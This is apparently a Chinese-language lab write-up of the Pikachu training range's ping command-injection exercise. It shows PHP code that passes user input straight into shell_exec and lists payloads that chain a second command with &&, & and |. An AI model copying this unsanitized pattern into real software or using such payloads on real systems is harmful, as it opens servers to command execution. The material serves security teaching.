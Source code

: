 比如我们常见的路由器、防火墙、入侵检测等设备的 web 管理界面上

一般会给用户提供一个 ping 操作的 web 界面,用户从 web 界面输入目标 IP,提交后,后台会对该 IP 地址进行一次 ping 测试,并返回测试结果. 而,如果,设计者在完成该功能时,没有做严格的安全控制,则可能会导致攻击者通过该接口提交"意想不到"的命令,从而让后台进行执行,从而控制整个后台服务器

### exec_"ping"

**服务器端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```

**漏洞利用**

可以拼接想要执行的命令
- payload: `127.0.0.1 && ipconfig`
- payload: `127.0.0.1 & ipconfig`
- payload: `127.0.0.1 | ipconfig`

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/24.png)
